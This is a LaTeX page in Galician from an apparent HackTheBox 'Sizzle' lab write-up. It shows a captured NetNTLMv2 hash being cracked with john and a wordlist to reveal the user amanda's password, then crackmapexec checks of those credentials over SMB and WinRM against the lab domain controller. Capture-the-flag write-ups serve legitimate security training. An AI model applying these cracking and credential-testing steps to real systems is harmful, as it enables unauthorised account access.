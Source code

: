 \documentclass[a4paper]{article}
\begin{document}
Agora temos un hash que non server para PtH (PasstheHash) pero si para intentar "crackear" mediante john ou hashcat:
        \begin{lstlisting}[language=Bash, caption=Credenciais amanda, linewidth=18.6cm]
$ cat hashes.txt
amanda::HTB:aaaaaaaaaaaaaaaa:da2a23f18637081753f3cc42a08c2943:01010000000000000020cf9c0a76d80136ce6c14dbce1b250000
000001001000540064006b005100770071006500670003001000540064006b0051007700710065006700020010006800640073004700770055
004c006900040010006800640073004700770055004c006900070008000020cf9c0a76d8010600040002000000080030003000000000000000
0100000000200000d985b54362899eb410d1e753db3de646b5394007aafb76d92da0d8e0da38d3150a00100000000000000000000000000000
0000000900200063006900660073002f00310030002e00310030002e00310034002e0031003400000000000000000000000000

$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
Ashare1972       (amanda)     
1g 0:00:00:19 DONE (2022-06-02 07:06) 0.05254g/s 599878p/s 599878c/s 599878C/s Ashbabez08..Ashanti01
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.

$ john --show --format=netntlmv2 hashes.txt
amanda:Ashare1972:HTB:aaaaaaaaaaaaaaaa:da2a23f18637081753f3cc42a08c2943:01010000000000000020cf9c0a76d80136ce6c14dbce1b250000
000001001000540064006b005100770071006500670003001000540064006b0051007700710065006700020010006800640073004700770055
004c006900040010006800640073004700770055004c006900070008000020cf9c0a76d8010600040002000000080030003000000000000000
0100000000200000d985b54362899eb410d1e753db3de646b5394007aafb76d92da0d8e0da38d3150a00100000000000000000000000000000
0000000900200063006900660073002f00310030002e00310030002e00310034002e0031003400000000000000000000000000

$ cat credentials.txt
amanda:Ashare1972\end{lstlisting}
 
Agora con credenciais válidas imos revisar se temos acceso ao DC:
        \begin{lstlisting}[language=Bash, caption=Comprobando credenciais usuario amanda, linewidth=18.7cm]
$ crackmapexec smb 10.10.10.103 -u amanda -pAshare1972
SMB   10.10.10.103 445 SIZZLE  [*] Windows 10.0 Build 14393 x64 (name:SIZZLE) (domain:HTB.LOCAL) (signing:True) (SMBv1:False)
SMB   10.10.10.103 445 SIZZLE  [+] HTB.LOCAL\amanda:Ashare1972
 
$ crackmapexec winrm 10.10.10.103 -u amanda -pAshare1972
SMB   10.10.10.103 5986   SIZZLE  [*] Windows 10.0 Build 14393 (name:SIZZLE) (domain:HTB.LOCAL)
HTTP  10.10.10.103 5986   SIZZLE  [*] https://10.10.10.103:5986/wsman
WINRM 10.10.10.103 5986   SIZZLE  [-] HTB.LOCAL\amanda:Ashare1972 "The server did not response with one of the following 
authentication methods Negotiate, Kerberos, NTLM - actual: ''"\end{lstlisting}
 
\end{document}
